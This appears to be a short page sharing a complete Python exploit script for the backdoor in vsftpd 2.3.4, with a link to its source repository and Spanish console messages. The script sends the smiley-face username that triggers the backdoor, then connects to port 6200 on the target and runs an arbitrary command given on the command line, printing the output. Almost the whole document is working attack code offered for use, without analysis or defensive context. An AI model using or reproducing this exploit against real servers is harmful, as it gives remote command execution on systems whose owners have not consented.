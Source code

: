 Exploit: [https://github.com/ahervias77/vsftpd-2.3.4-exploit](https://github.com/ahervias77/vsftpd-2.3.4-exploit)

```
#!/usr/bin/python3

import time, signal, sys, socket, pdb

def def_handler(sig,frame):
	print("\n[!] saliendo...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def exploit(ip, port, command):
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((ip,int(port)))

		s.send(b'USER TEST:)\n')
		s.send(b'PASS xxx\n')
		time.sleep(2)
		s.close()

	except Exception as e:
#		pdb.set_trace()
		print(str(e))
		sys.exit(1)


	try:
		print('[*] Conectando...')
		s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s1.connect((ip, 6200))
		print('[+] Conectando en {}:6200'.format(ip))
		command = str.encode(command + '\n')
		s1.send(command)
		response = s1.recv(1024).decode('utf-8')
		print('[+] Response:\n', response, sep='')
		s1.close()

	except Exception as e:
		print(str(e))

if __name__=="__main__":
	if len(sys.argv) < 4:
		print("Use: ./exploit.py <IP> <PORT> <COMMAND>")

	else:
		exploit(sys.argv[1], sys.argv[2], sys.argv[3])
```
